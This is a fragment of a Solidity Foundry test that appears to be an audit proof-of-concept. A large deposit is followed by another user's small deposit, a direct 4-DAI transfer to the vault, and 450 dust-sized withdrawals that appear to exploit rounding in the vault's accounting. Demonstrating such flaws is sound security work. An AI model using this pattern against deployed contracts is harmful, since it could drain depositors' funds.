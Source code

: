 ```solidity

        USDC.approve(diaA, type(uint256).max);
        DAI.approve(diaA, type(uint256).max);
        
        string memory addValueSignature = "addValue(address,uint16,uint128,uint128)";
        bytes memory addValue1Million = abi.encode(whale, _cid, 2_000_000e18, 0);

        (bool sc5, bytes memory d5) = diaA.call(encodeCall(addValueSignature, addValue1Million));
        assert(sc5);

        vm.startPrank(bob);

        USDC.approve(diaA, type(uint256).max);
        DAI.approve(diaA, type(uint256).max);

        bytes memory addValue450 = abi.encode(bob, _cid, 450, 0);

        (bool sc, bytes memory d) = diaA.call(encodeCall(addValueSignature, addValue450));

        assert(sc);
        DAI.transfer(address(dai_vault), 4);

        console.log("\nRemove value part");

        for(uint256 i = 0; i < 450; i++){
            console.log("\n\n");
            string memory removeValueSignature = "removeValue(address,uint16,uint128,uint128)";
            bytes memory removeValueDust = abi.encode(bob, _cid, 1, 0);

            (bool sc2, bytes memory d2) = diaA.call(encodeCall(removeValueSignature, removeValueDust));
            // Don't need to check success, most probably it will revert 
            // for some of them but it doesn't matter
        }
        

        vm.stopPrank();

        vm.startPrank(whale);
        
        string memory removeValueSignature = "removeValue(address,uint16,uint128,uint128)";
        bytes memory removeValue1million = abi.encode(whale, _cid, 2_000_000e18, 0);

        (bool sc3, bytes memory d3) = diaA.call(encodeCall(removeValueSignature, removeValue1million));
        assert(sc3);
        

    }
}
```
